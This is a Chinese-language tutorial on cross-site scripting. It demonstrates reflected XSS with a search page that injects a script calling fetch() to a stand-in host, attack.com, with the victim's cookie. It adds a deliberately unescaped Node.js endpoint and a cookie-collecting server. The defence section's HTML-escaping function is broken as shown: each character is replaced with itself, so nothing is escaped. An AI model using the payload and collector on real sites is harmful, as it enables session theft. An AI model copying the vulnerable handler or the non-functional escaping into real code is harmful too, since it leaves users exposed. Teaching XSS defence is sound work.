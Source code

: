 # XSS攻防

很多网站会在用户登录完毕设置 Cookie 值或者返回一个 Token，这就相当于令牌，只要拿着这张令牌就等同于证明了你是某个用户。如果防御不到位，Cookie 和 Token 很容易被 XSS 攻击窃取到，此时攻击者就可以冒充真实的用户，在网站中为所欲为了。

XSS 的全称叫跨站脚本攻击（Cross Site Scripting），攻击出现的原因一般是因为 Web 程序对用户的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

- 反射型
- 存储型
- DOM型

## 反射型 XSS 攻防实战

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

### 攻击案例

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

```js
https://xxx.com/movies?q=功夫熊猫
```

在后台返回的结果页中，会显示用户搜索的电影名：

```js
「功夫熊猫」的搜索结果为：
xxxxxxxxxxxxxxxxxxxxxxx
```

攻击者拼接了一个极度恶意的链接：

```js
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。下面给出 `Node.js` 后端服务完整源码：

```js
const http = require('http')
const URL = require('url')

// HTML 模板
function renderHTML(tpl) {
  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`
}

// 路由分发器
const routes = {
  'GET /movies': (req, res) => { // 被攻击网站的电影搜索接口
    const tpl = req.query.q
      ? `<h3>「${req.query.q}」的搜索结果为：</h3>${Array(30).fill('x')}`
      : `请输入搜索的电影`
    res.setHeader('Set-Cookie', ['name=keliq', 'age=10'])
    res.end(renderHTML(tpl))
  },
  'GET /cookies': (req, res) => { // 攻击者后台收集cookie的接口
    console.log(req.query)
    res.end()
  },
}

function onRequest(req, res) {
  const { url, method } = req
  const { query, pathname } = URL.parse(url, true) // 解析 url
  Object.assign(req, { query, path: pathname }) // 并把 query 和 pathname 参数扩展到 req 对象
  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）
  if (route) return route(req, res)
  res.statusCode = 404
  res.end('Not Found')
}

http.createServer(onRequest).listen(3000) // 被攻击的网站
http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```

运行上面的代码，然后打开访问下面的恶意链接：

```js
http://localhost:3000/movies?q=功夫熊猫<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 被发送到了攻击者的服务器。

### 防御方案

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，例如直接用 `encodeURIComponent` 对查询参数进行过滤：

```js
const tpl = req.query.q
  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(30).fill('x')}`
  : `请输入搜索的电影`
```

还有一种方式是写一个函数替换掉那些 `<`、`&` 等特殊字符：

```js
function encodeHTML(str) {
  return str
    .replace(/&/g,'&')
    .replace(/"/g,'"')
    .replace(/'/g,'&apos;')
    .replace(/</g,'<')
    .replace(/>/g,'>')
}
```
